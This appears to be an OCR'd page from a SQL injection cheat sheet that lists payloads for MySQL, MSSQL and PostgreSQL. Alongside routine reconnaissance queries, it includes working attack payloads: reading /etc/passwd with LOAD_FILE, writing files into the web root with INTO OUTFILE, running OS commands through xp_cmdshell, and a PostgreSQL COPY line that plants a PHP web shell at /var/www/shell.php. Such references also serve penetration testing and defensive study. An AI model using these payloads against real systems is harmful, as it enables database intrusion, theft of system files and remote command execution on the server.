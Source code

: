 ## DBMS-Specific Payloads

### MySQL
```sql
-- Comment syntax
# MySQL comment
-- Another comment
/*Multi-line comment*/

-- File operations
SELECT LOAD_FILE('/etc/passwd');
SELECT 'data' INTO OUTFILE '/var/www/shell.php';

-- Information gathering
SELECT @@version;
SELECT user();
SELECT database();
SELECT table_name FROM information_schema.tables;
```

### MSSQL
```sql
-- Comment syntax
-- MSSQL comment

-- Information gathering
SELECT @@version;
SELECT CURRENT_USER;
SELECT DB_NAME();
SELECT name FROM sys.databases;
SELECT name FROM sys.tables;

-- Advanced commands
EXEC xp_cmdshell 'whoami';
```

### PostgreSQL
```sql
-- Comment syntax
-- Postgres comment
/*Multi-line comment*/

-- Information gathering
SELECT version();
SELECT current_user;
SELECT current_database();
SELECT table_name FROM information_schema.tables;

-- File operations
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/shell.php';
```
